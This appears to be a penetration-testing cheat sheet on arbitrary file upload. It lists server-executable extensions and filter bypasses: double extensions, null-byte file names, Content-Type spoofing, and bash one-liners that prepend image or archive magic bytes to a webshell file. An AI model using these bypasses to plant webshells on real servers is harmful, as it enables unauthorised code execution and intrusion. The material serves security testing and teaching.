 ```yaml
---
icon: folder-arrow-up
---
```


# Arbitrary File Upload

{% hint style="info" %}
### <mark style="color:purple;">Executable extensions:</mark>

<mark style="color:orange;">**`.php`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">Standard extension for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**PHP scripts**</mark><mark style="color:purple;">.</mark>

&#x20;<mark style="color:orange;">**`.php5`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">Used for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**PHP version 5 scripts**</mark><mark style="color:purple;">.</mark>

&#x20;<mark style="color:orange;">**`.phtml`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">**PHP scripts**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">with an alternative extension, often for compatibility or aesthetic reasons.</mark>

&#x20;<mark style="color:orange;">**`.pht`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Less common extension, used for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**PHP files**</mark><mark style="color:purple;">; sometimes bypasses naive filters.</mark>

&#x20;<mark style="color:orange;">**`.phps`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">Typically used for PHP</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**source code highlighting**</mark><mark style="color:purple;">.</mark>

&#x20;<mark style="color:orange;">**`.php3`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">Extension for older PHP 3 scripts; still valid in some configurations.</mark>

&#x20;<mark style="color:orange;">**`.asp`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">**Active Server Pages**</mark><mark style="color:purple;">, Microsoft’s server-side scripting technology.</mark>

&#x20;<mark style="color:orange;">**`.aspx`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">**Advanced ASP.NET**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">pages used for dynamic web content on Microsoft platforms.</mark>

&#x20;<mark style="color:orange;">**`.jsp`**</mark> <mark style="color:purple;">**-> Java Server Pages**</mark><mark style="color:purple;">, used for dynamic web applications in Java environments.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Test filters</mark>

* <mark style="color:purple;">There are normally three ways a web server</mark> <mark style="color:purple;">will check for valid file types by comparing them to an allow- or deny-list:</mark>
* <mark style="color:orange;">**`File extension`**</mark> <mark style="color:purple;">**:**</mark>
  * <mark style="color:purple;">**Double extensions:**</mark>
    * <mark style="color:orange;">**`.png.php`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`.jpg.php`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`.png.asp`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`.gif.jsp`**</mark>
  * <mark style="color:purple;">**Null byte injection:**</mark>
    * <mark style="color:orange;">**`file.php%00.jpg`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`file.asp%00.png`**</mark>
* <mark style="color:orange;">**`Content-Type`**</mark> <mark style="color:purple;">**headers:**</mark>
  * <mark style="color:purple;">**Executable types:**</mark>&#x20;
    * <mark style="color:orange;">**`application/x-php`**</mark>
    * <mark style="color:orange;">**`application/x-sh`**</mark>&#x20;
    * <mark style="color:orange;">**`application/x-msdownload`**</mark>
    * <mark style="color:orange;">**`application/x-python-code`**</mark>&#x20;
  * &#x20;<mark style="color:purple;">**Image Types:**</mark>
    * &#x20;<mark style="color:orange;">**`image/png`**</mark><mark style="color:purple;">**,**</mark><mark style="color:orange;">**`image/jpeg`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`image/gif`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`image/bmp`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`image/svg+xml`**</mark>
  * <mark style="color:orange;">**`MIME`**</mark> <mark style="color:purple;">**Confusion:**</mark>
    * <mark style="color:orange;">**`text/html`**</mark> <mark style="color:purple;">instead of</mark> <mark style="color:orange;">**`application/json`**</mark>
    * <mark style="color:orange;">**`text/plain`**</mark> <mark style="color:purple;">to trick servers.</mark>
* [<mark style="color:orange;">**`Magic bytes`**</mark>](https://en.wikipedia.org/wiki/List_of_file_signatures) <mark style="color:purple;">(file signature)</mark>
  * <mark style="color:purple;">**Online hex editor ->**</mark> [<mark style="color:orange;">**`HexED.it`**</mark>](https://hexed.it/)

{% code title="PNG" %}
```bash
echo "89504e470d0a1a0a" | xxd -r -p > magic_bytes.bin; cat magic_bytes.bin webshell.php > malicious.png
```
{% endcode %}

{% code title="JPEG" overflow="wrap" %}
```bash
echo "ffd8ff" | xxd -r -p > magic_bytes.bin; cat magic_bytes.bin webshell.php > malicious.jpg
```
{% endcode %}

{% code title="GIF" overflow="wrap" %}
```bash
echo "47494638" | xxd -r -p > magic_bytes.bin; cat magic_bytes.bin webshell.php > malicious.gif
```
{% endcode %}

{% code title="PDF" overflow="wrap" %}
```bash
echo "25504446" | xxd -r -p > magic_bytes.bin; cat magic_bytes.bin webshell.php > malicious.pdf
```
{% endcode %}

{% code title="ZIP" overflow="wrap" %}
```bash
echo "504b0304" | xxd -r -p > magic_bytes.bin; cat magic_bytes.bin webshell.php > malicious.zip
```
{% endcode %}
{% endhint %}
